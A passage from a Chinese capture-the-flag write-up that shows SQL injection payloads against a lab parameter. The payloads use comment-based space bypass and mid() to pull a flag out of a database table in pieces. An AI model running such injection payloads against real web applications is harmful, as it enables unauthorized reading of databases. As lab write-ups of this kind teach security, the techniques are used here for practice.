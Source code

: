 可以得到列名 `id, flag, id, username` ，构造 Payload 如下

```
wllm=-1'/**/union/**/select/**/1,(select/**/flag/**/from/**/LTLT_flag/**/limit/**/0,1),3%23
```

可以得到 `NSSCTF{aeb148da-5efa` ，可以通过 `mid()` 来获取 flag 的其他部分，构造 Payload 如下

```
wllm=-1'/**/union/**/select/**/1,mid((select/**/flag/**/from/**/LTLT_flag/**/limit/**/0,1),21),3%23
wllm=-1'/**/union/**/select/**/1,mid((select/**/flag/**/from/**/LTLT_flag/**/limit/**/0,1),40),3%23
```

可以得到 `-430e-961b-ab03b3fb` 和 `2d32}` 拼起来就是 flag 了。
